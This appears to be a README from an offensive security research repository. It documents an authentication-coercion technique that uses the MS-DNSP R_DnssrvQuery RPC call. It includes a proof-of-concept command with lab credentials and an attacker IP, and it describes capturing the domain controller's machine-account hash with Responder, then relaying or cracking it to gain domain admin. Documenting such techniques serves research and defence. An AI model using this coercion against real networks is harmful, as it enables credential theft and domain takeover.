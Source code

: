 # MS-DNSP - Remote call to R_DnssrvQuery (opnum 1)

## Summary

 - **Protocol**: [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)

 - **Protocol UUID**: 50abc2a4-574d-40b3-9d66-ee4fd5fba076

 - **Protocol version**: 0.0

 - **SMB Named pipe**: `\PIPE\DNSSERVER`

 - **Function name**: [`R_DnssrvQuery`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/b0419a70-ac0b-40ba-ab94-1510992bc574)

 - **Function operation number**: `1`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DNSSERVER` and bind to the desired [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol (with uuid `50abc2a4-574d-40b3-9d66-ee4fd5fba076` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DNSSERVER` This pipe is connected to the protocol [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) and allows to call RPC functions of this protocol. We will then call the remote [`R_DnssrvQuery`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/b0419a70-ac0b-40ba-ab94-1510992bc574) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DnssrvQuery('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
LONG R_DnssrvQuery(
   [in]                                    handle_t               hBindingHandle,
   [in, unique, string]                    LPCWSTR                pwszServerName,
   [in, unique, string]                    LPCSTR                 pszZone,
   [in, unique, string]                    LPCSTR                 pszOperation,
   [out]                                   PDWORD                 pdwTypeId,
   [out, switch_is(*pdwTypeId)]            DNSSRV_RPC_UNION*      ppData
 );
```

## References

 - Documentation of protocol [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a

 - Documentation of function `R_DnssrvQuery`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/b0419a70-ac0b-40ba-ab94-1510992bc574